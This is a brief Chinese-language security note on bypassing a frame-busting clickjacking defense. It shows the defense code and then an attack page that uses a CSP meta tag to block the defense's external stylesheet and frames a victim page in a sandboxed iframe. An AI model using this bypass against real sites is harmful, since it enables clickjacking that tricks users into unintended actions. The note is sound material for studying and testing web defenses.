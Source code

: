 # clickjacking js bypass


目前较好的防御方法
```
<head>
<style> body { display : none;} </style>
</head>
<body>
<script>
if (self == top) {
    var theBody = document.getElementsByTagName('body')[0];
    theBody.style.display = "block";
} else {
    top.location = self.location;
}
</script>
```

BUT 某些场景还是可以绕过这个方法,比如下面这个场景

style样式是引入css文件
```
<link href="xx.css"> 
xx.css包含body{display:none;}

```
然而许多前端开发者为了管理方便，都会使用上述代码
接下来我们可以利用csp策略来bypass防御方法
```
attack.html content 

<meta http-equiv="Content-Security-Policy" content="style-src www.leesec.com">

<iframe src="http://10.211.55.8/tset/victim.php" sandbox="allow-modals allow-forms allow-popups allow-scripts allow-same-origin" id="test"></iframe>

```
